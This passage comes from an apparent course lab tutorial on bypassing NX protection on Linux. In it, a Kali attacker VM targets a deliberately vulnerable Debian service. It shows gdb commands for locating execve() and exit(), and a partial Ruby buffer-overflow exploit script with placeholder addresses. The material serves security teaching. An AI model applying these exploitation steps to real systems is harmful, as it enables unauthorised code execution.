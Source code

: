 The above code contains templates for the address of the `execve` function which we are overwriting EIP with, and all of the values that we need to find in order to construct our stack frame.

We will take an incremental approach to setting up memory therefore, other than the EIP, the other stack values are commented out for now. A string of 30 “C” characters is appended to the end of our exploit script for visibility in gdb.

## Finding the addresses of `execve()` and `exit()` {#finding-the-addresses-of-execve-and-exit}

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Run your updated exploit script and when prompted to attach your debugger, switch to your Desktop VM==.

==VM: On your Desktop Debian Linux VM (victim service)==

This time we are going to attach gdb to the process as it provides some useful functions for quickly inspecting memory.

```bash
gdb program -p `pgrep -n Ch_nx_BOF_1`
```

Whilst we have execution frozen, we can find the memory address for the execve and exit functions:

```bash
(gdb) p execve
```

```bash
(gdb) p exit
```

Make note of these two addresses as ==edit:Execve-Address== and ==edit:Exit-Address== before continuing execution...

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Update your Kali script's execve and ret\_exit 0x00000000 placeholders with the actual addresses==. 

```ruby
  offset = "==edit:Offset-Value=="
  # eip = "BBBB"
  execve = ["==edit:Execve-Address=="].pack('V')   # mem addr of execve()
  eip = execve
  ret_exit = ["==edit:Exit-Address=="].pack('V') # return address i.e. mem addr of exit() function
  # bin_sh = [0x00000000].pack('V')   # mem addr of "/bin/sh" string
  # zero = [0x00000000].pack('V')     # mem addr that contains 0x00000000 
  function
  
  bad = "A" * offset + eip + ret_exit + "C" * 30 #+ bin_sh + zero + zero
```

> Tip: Remove the "" around hex addresses: use `[0x00000000].pack('V')` rather than `["0x00000000"].pack('V')`

==VM: On your Desktop Debian Linux VM (victim service)==


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-14.png
[image-15]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-15.png
[image-16]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-16.png
[image-17]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-17.png
[image-18]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-18.png